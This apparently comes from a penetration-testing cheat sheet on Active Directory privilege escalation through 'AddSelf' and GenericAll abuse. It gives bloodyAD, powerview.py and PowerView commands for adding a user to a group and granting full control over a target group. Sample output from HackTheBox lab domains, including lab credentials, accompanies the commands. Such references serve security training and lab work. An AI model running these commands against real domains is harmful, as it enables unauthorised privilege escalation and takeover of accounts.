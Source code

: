 ```yaml
---
title: "AddSelf"
date: 2024-8-2
tags: ["Powerview", "Genericall", "AddMember", "Group Policy", "Domain Controller", "Addself", "Active Directory", "Windows", "BloodyAD"]
---
```


### Privesc #1: Add self to group (From Linux)

{{< tab set1 tab1 >}}bloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}powerview.py{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Add self to group

```console
# With password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add groupMember '<GROUP>' '<USER>'
```

```console {class="sample-code"}
$ bloodyAD -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 add groupMember SERVICEMGMT 'oorend'
[+] oorend added to SERVICEMGMT
```

```console
# With hashes
bloodyAD -d <DOMAIN> -u '<USER>' -p '<HASH>' -f rc4 -k --host <DC> add groupMember '<GROUP>' '<USER>'
```

```console
# With Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' -k --host <DC> add groupMember '<GROUP>' '<USER>'
```

```console {class="sample-code"}
$ bloodyAD -d absolute.htb -u 'm.lovegod' -p 'AbsoluteLDAP2022!' -k --host dc.absolute.htb add groupMember 'NETWORK AUDIT' 'm.lovegod'
[+] m.lovegod added to NETWORK AUDIT
```

#### 2. Add genericAll over target group

```console
# With password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console {class="sample-code"}
$ bloodyAD -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' 'oorend'
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

```console
# With Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' -k --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console {class="sample-code"}
$ bloodyAD -d absolute.htb -u 'm.lovegod' -p 'AbsoluteLDAP2022!' -k --host dc.absolute.htb add genericAll 'NETWORK AUDIT' 'm.lovegod' 
[+] m.lovegod has now GenericAll on NETWORK AUDIT
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Connect

```console
sudo ntpdate -s <DC_IP> && powerview '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && powerview 'rebound.htb/oorend:1GR8t@$$4u@dc01.rebound.htb'
Logging directory is set to /home/kali/.powerview/logs/dc01.rebound.htb
[2024-09-24 07:11:06] Channel binding is enforced!
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > 
```

#### 2. Add self to group

```console
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'
```

```console {class="sample-code"}
PV > Add-DomainGroupMember -Identity 'servicemgmt' -Members 'oorend'
[2024-09-24 07:13:17] User oorend successfully added to servicemgmt
```

```console
# Check
Get-DomainGroupMember -Identity '<GROUP>'
```

```console {class="sample-code"}
PV > Get-DomainGroupMember -Identity 'servicemgmt'
GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : ppaul
MemberDistinguishedName     : CN=ppaul,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-1951

---[SNIP]---

GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : oorend
MemberDistinguishedName     : CN=oorend,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-7682
```

#### 4. Add fullcontrol over target group

```console
# Exit and login again to apply changes
Add-DomainObjectAcl -TargetIdentity '<TARGET_GROUP>' -PrincipalIdentity '<USER>' -Rights fullcontrol
```

```console {class="sample-code"}
PV > Add-DomainObjectAcl -TargetIdentity 'service users' -PrincipalIdentity 'oorend' -Rights fullcontrol
[2024-09-24 07:37:24] [Add-DomainObjectACL] Found target identity: OU=Service Users,DC=rebound,DC=htb
[2024-09-24 07:37:24] [Add-DomainObjectACL] Found principal identity: CN=oorend,CN=Users,DC=rebound,DC=htb
[2024-09-24 07:37:24] Adding FullControl to OU=Service Users,DC=rebound,DC=htb
[2024-09-24 07:37:24] DACL modified successfully!
```

```console
# Check
Get-DomainObjectAcl -Identity '<TARGET_USER>' -Where 'SecurityIdentifier contains <USER>'
```

```console {class="sample-code"}
PV > Get-DomainObjectAcl -Identity 'winrm_svc' -Where 'SecurityIdentifier contains oorend'
ObjectDN                    : CN=winrm_svc,OU=Service Users,DC=rebound,DC=htb
ObjectSID                   : S-1-5-21-4078382237-1492182817-2568127209-7684
ACEType                     : ACCESS_ALLOWED_ACE
ACEFlags                    : CONTAINER_INHERIT_ACE, INHERITED_ACE, OBJECT_INHERIT_ACE
ActiveDirectoryRights       : FullControl
AccessMask                  : 0xf01ff
InheritanceType             : None
SecurityIdentifier          : oorend (S-1-5-21-4078382237-1492182817-2568127209-7682)
```

<small>*Ref: [powerview.py](https://github.com/aniqfakhrul/powerview.py)*</small>

{{< /tabcontent >}}

### Privesc #1: Add self to group (From Windows)

{{< tab set2 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add self to group

```console
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>' -Credential $Cred
```

```console {class="sample-code"}
PS C:\programdata> Add-DomainGroupMember -Identity 'security engineers' -Members 'user' -Credential $Cred
Add-DomainGroupMember -Identity 'security engineers' -Members 'user' -Credential $Cred
```

```console
# Check
Get-DomainGroupMember -Identity '<GROUP>'
```

```console {class="sample-code"}
PS C:\programdata> Get-DomainGroupMember -Identity 'security engineers'
Get-DomainGroupMember -Identity 'security engineers'

---[SNIP]---

GroupDomain             : corp.local
GroupName               : Security Engineers
GroupDistinguishedName  : CN=Security Engineers,CN=Users,DC=corp,DC=local
MemberDomain            : corp.local
MemberName              : user
MemberDistinguishedName : CN=user,OU=Contractors,OU=Corp,DC=corp,DC=local
MemberObjectClass       : user
MemberSID               : S-1-5-21-2291914956-3290296217-2402366952-1114
```

{{< /tabcontent >}}